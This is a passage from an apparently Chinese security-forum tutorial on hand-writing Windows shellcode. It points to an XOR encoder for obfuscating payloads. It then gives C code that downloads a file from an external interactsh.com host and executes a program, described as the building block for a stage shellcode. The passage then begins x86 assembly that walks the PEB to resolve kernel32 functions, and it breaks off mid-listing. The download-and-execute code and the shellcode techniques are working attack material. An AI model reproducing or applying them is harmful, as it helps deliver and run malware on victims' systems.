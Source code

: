上面步骤可能有点繁琐，本来打算自己写一个Py脚本完成自动化编码过程，但是搜索发现有前辈已经写好且效果不错的Py脚本:[xor-encoder.py](https://github.com/DarkCoderSc/slae32-xor-encoder/blob/master/xor-encoder.py)，那么直接就可以拿来就用就行了，白嫖真香!

![image-20211202155129916](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-1b5d366688beec6488fb546189acfdfa737ae8f8.png)

其解码器逻辑与我们上述用的定位方法是一样的，复制编码后的结果到Cyberhref进行分析即可。

![image-20211202160431596](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-ae290449fddfa8ecc4c0f9fe3470fe7d574f9d64.png)

0x6.2 增强功能
----------

如果ShellCode只支持执行命令，在没有回显的环境，相当于无回显的命令执行，是有相当多的不便的，就算出网，也很难找到办法反弹回Shell，既然这样，我们不如写一个反弹Shell的shellcode？ 说实话真没必要，因为实现起来汇编代码量挺大的。那么不如像MSF写一个stage shellcode？嗯，这个思路可还行。

简化下问题，ShellCode的各种功能可以由两个原子操作来完成: 1)下载恶意文件 2)执行恶意文件

```c
#include <Windows.h>
#pragma comment (lib,"Urlmon.lib")
void main() {
    HRESULT hr = URLDownloadToFile(0, L"http://c6m9m382vtc0000ntnd0gdkr4noyyyyyb.interactsh.com/1.txt", L"1.txt", 0, NULL);
    if (hr == S_OK)
    {
        const char* cmd = "calc.exe";
        WinExec(cmd, SW_SHOWNORMAL);
    }
}
```

汇编实现步骤相比第五小节的步骤来说繁琐了一点，但这些步骤是实现复杂shellcode功能的基础。

1)寻找kernel32的内存地址

2)查找GetProcAddress函数地址 \*

3)调用GetProcAddress查找LoadLibraryA \*

4)调用LoadLibrary载入urlmon.dll \*

5)调用GetProcAddress查找URLDownloadToFileA地址

6)调用 URLDownloadToFileA,下载`http://c6m9m382vtc0000ntnd0gdkr4noyyyyyb.interactsh.com/1.txt`\*

7)调用WinExec执行命令`cmd.exe`\*

8)查找ExitProcess地址并调用\*

修改后对应的汇编指令:

```assembly
    __asm {
        xor esi, esi;
        mov ebx, fs:[0x30+esi]; Get pointer to PEB
        mov ebx, [ebx + 0x0C]; Get pointer to PEB_LDR_DATA
        mov ebx, [ebx + 0x14]; Get pointer to first entry in InMemoryOrderModuleList
        mov ebx, [ebx]; Get pointer to second(ntdll.dll) entry in InMemoryOrderModuleList
        mov ebx, [ebx]; Get pointer to third(kernel32.dll) entry in InMemoryOrderModuleList
        mov ebx, [ebx + 0x10]; Get kernel32.dll base address
        mov edx, [ebx + 3Ch]; EDX = DOS->e_lfanew;
        add edx, ebx; EDX = PE Header;
        mov edx, [edx + 78h]; EDX = Offset export table;
        add edx, ebx; EDX = Export  Table;

        xor ecx, ecx; Set ecx = 0;
        dec ecx; Set ecx = -1;
        mov esi, [edx + 20h];
        add esi, ebx;

    Fetch_Func:
```